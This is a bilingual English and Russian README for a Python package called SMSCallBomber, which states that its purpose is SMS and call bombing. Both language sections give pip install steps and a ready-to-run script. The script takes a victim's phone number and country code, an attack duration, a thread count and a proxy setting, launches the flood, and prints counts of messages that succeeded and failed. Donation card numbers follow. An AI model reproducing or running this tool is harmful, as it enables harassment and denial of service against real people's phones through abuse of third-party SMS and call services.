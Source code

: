 # SMSCallBomber

## English(Русский ниже)

### Description

This library provides functionality for SMS and call bombing.

### Installation

You can install the SMSCallBomber library via pip:

```bash
pip install SMSCallBomber
```

### Usage

```python
from smscallbomber import SMSCallBomber
import time
import threading
import random
from argparse import Namespace

# Creating an instance of SMSCallBomber
args = Namespace(
    country='Country code (7, 375, 380, 998 or "ALL"). Specify ALL for all countries',
    phone='Phone number without "+" (e.g., 79012345678)',
    time=60,         # Attack duration in seconds
    threads=10,      # Number of concurrent threads
    timeout=5,      # Timeout per request in seconds
    proxy=True,     # True / False or your proxy:
                     # "http://user:pass@ip:port"
    log_file='bomber.log',   # Set to None(without quotes) to disable logging to file
    log_level='INFO'         # Logging level: DEBUG, INFO, WARNING, ERROR, CRITICAL
)
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = random.randint(1000000000, 9999999999)

# Starting the attack
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Returns the result of the attack after it ends
time.sleep(args.time)
time.sleep(5) # Increase the time if the results contain zeros
attack_threads.join(0)
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")

# Stopping the attack
bomber = bombers[bomber_id]
bomber.stop()
time.sleep(5) # Increase the time if the results contain zeros
attack_threads.join(0)
del attack_threads
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")
```

It is also possible to use in an asynchronous environment if you slightly modify the code and use 
```python
await bomber._run()
```

### Donation

If you find this project helpful and would like to support its development, you can make a donation to the author.

- YooMoney: 4100118510603906
- Cards:
  - 2200 7009 6755 8080 - Tinkoff
  - 2202 2068 1279 8101 - Sberbank
- Other methods: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### License

This project is licensed under the MIT License.

## Русский

### Описание

Эта библиотека предоставляет функционал для SMS бомбера со звонками.

### Установка

Вы можете установить библиотеку SMSCallBomber с помощью pip:

```bash
pip install SMSCallBomber
```

### Использование

```python
from smscallbomber import SMSCallBomber
import time
import threading
import random
from argparse import Namespace

# Создание экземпляра SMSCallBomber
args = Namespace(
    country='Код страны (7, 375, 380, 998 или "ALL"). Укажите "ALL" для всех стран',
    phone='Номер телефона для атаки (без +, например: 79001234567)',
    time=60,            # Время атаки в секундах
    threads=10,         # Количество параллельных потоков
    timeout=5,         # Таймаут каждого запроса в секундах
    proxy=True,         # True / False или ваши прокси:
                        # "http://user:pass@ip:port"
    log_file='bomber.log',   # Имя файла логов или None(без кавычек) для отключения логирования
    log_level='INFO'         # Уровень логирования: DEBUG, INFO, WARNING, ERROR, CRITICAL
)
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = random.randint(1000000000, 9999999999)

# Запуск атаки
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Возвращает результат атаки после её окончания
time.sleep(args.time)
time.sleep(5) # Увеличьте время если в результатах по нулям
attack_threads.join(0)
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")

# Остановка атаки
bomber = bombers[bomber_id]
bomber.stop()
time.sleep(5) # Увеличьте время если в результатах по нулям
attack_threads.join(0)
del attack_threads
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")
```

Также возможно использование в асихронной среде, если немного переделать код и использовать 
```python
await bomber._run()
```

### Пожертвование

Если вы нашли этот проект полезным и хотели бы поддержать его развитие, вы можете сделать пожертвование автору.

- ЮMoney: 4100118510603906
- Карты:
  - 2200 7009 6755 8080 - Тинькофф
  - 2202 2068 1279 8101 - Сбербанк
- Другие способы: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### Лицензия

Этот проект распространяется под лицензией MIT License.